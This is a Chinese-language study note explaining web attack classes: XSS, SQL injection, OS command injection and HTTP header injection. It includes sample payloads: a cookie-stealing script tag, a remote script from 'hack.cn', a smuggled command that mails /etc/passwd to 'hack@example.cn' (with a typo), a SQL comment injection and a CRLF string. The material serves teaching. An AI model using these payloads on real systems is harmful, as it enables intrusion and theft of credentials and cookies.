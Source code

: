 # Web 攻击技术

## 因输出值转义不完全而引发的安全漏洞

### 跨站脚本攻击 | Cross-Site Scripting | XSS

* 跨站脚本攻击依赖动态脚本注入
1. 将输入 (input) 动态插入 html 中
```js
  <input type="text" id="username" name="username" />
  document.getElementsByTagName("body")[0].innerHTML = username;
  // username ===> "<script>alert(document.cookie)</script>
```
2. URL 查询字符串插入 表单 
```js
  // url ===> www.example.com/login?ID=yama
  // ID ===> "><script>alert(document.cookie)</script><span s="
  <form>
    ID <input type="text" value="ID"/>
  </form>
```
3. 动态插入 js 文件 (也是利用 url 插入)
```js
  <script src="http://hack.cn/xss.js"></script>
  // xss.js
  alert(document.cookie);
```

### SQL 注入攻击

1. SQL | -- 后均为注释
```js
  const url = 'http://example.com/search?q=村上春树' // 原本 
  const url = 'http://example.com/search?q=村上春树 -- ' // 注入攻击 
```
```SQL
  SELECT * FROM library WHERE author = '村上春树' and flag = 1
  SELECT * FROM library WHERE author = '村上春树' -- and flag = 1
```

### OS 命令注入攻击

1. web 启动 os 命令发送邮件
```bash
  my $adr = $q->param('mailaddress');
  open(MAIL, "| /usr/sbin/sendmail $adr");
  print MAIL "From: info@example.com\n";
```
```bash
  # 攻击代码 "; cat /etc/passwd | mail hack@example.cn"
  "| /usr/sbin/sendmail ; car /etc/passwd | mail hack@example.cn"
```

### HTTP 首部注入攻击 | HTTP Header Injection

```html
  <!-- http 报文格式 -->
  <line>
  <header>
  <blank-line>
  <body>
```

1. http 响应截断攻击

```html
  <!-- 插入两个换行符 达到改变报文主体的目的
       url 中 %0D%0A 会被解析成回车换行
       Location: http://example.com/?cat=101(%0D%0A: 换行符)
  -->
  %0D%0A%0D%0A<HTML><HEAD><TITLE>想要显示的内容<!--
```

